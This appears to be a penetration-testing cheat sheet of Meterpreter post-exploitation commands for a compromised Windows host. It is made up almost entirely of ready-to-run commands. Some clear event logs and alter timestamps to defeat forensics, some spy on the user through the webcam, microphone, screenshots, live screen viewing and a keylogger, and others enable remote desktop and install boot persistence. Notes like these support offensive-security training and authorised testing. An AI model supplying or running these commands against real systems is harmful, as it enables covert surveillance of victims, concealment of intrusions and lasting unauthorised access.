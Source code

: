 # Meterpreter post-exploitation commands

<div class="row row-cols-md-2 mt-4"><div>

* ➡️ | `root`. Clear logs

```shell!
meterpreter> clearev
```

* ➡️  | `root`. Mess with timestamp to complicate forensics

```shell!
meterpreter> timestomp
```

* ➡️  | `not tested`. Check if we are in a VM

```shell!
meterpreter> run post/windows/gather/checkvm
```

* ➡️ Random commands

```shell!
meterpreter> idletime # time the host was idle
meterpreter> ipconfig # network information
meterpreter> localtime # time and date
meterpreter> getenv PATH # get PATH
meterpreter> checksum <file> # get file checksum
```
</div><div>

All the commands below require administrative/root privileges.

<details class="details-e">
<summary>Take control of the webcam</summary>

```shell!
meterpreter> webcam_list
meterpreter> webcam_snap
```
</details>

<details class="details-e">
<summary>Take a screenshot</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> use espia
meterpreter> screengrab
```

You may also use `screenshot` 📌.
</details>

<details class="details-e">
<summary>Install a keylogger</summary>

```shell!
meterpreter> migrate -N explorer.exe
meterpreter> keyscan_start # start
meterpreter> keyscan_dump # dump keys
```
</details>

<details class="details-e">
<summary>Watch the screen in real time</summary>

Watch the remote user desktop in real time

```shell!
meterpreter> screenshare
meterpreter> record_mic # Record audio from the default microphone for X seconds
```
</details>

<details class="details-e">
<summary>Record microphone</summary>

Record audio from the default microphone for X seconds

```shell!
meterpreter> record_mic
```
</details>

<details class="details-e">
<summary>Enable Remote Desktop Protocol</summary>

```shell!
meterpreter> run post/windows/manage/enable_rdp
```
</details>

<details class="details-e">
<summary>Persistence</summary>

See [METERPRETER SERVICE](https://www.offensive-security.com/metasploit-unleashed/meterpreter-service/).

```shell!
meterpreter> # Automatically start the agent when the system boots
meterpreter> run persistence -X
```
</details>
</div></div>